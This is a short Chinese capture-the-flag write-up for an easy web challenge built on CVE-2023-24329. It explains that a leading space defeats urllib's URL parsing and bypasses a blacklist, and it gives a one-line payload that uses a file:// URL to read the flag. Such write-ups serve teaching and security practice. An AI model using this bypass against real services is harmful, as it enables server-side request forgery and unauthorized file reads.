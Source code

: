 # urllib (Web/Easy)
## 题目描述

是SSRF吗？如是。

是SSRF吗？如是。

是SSRF吗？如是。

## 附件

[server.py](../app/server.py)

## 解题思路

本题改编自`CVE-2023-24329`

据[PoC](CVE-2023-24329-PoC.py)描述，当url开头为空格时，urllib中urlparse函数会无法解析，导致scheme和hostname为`ValueError`，因此黑名单失效，得以绕过。

### payload

```
/?url=%20file://127.0.0.1/flag
```

### 其他解

俺不会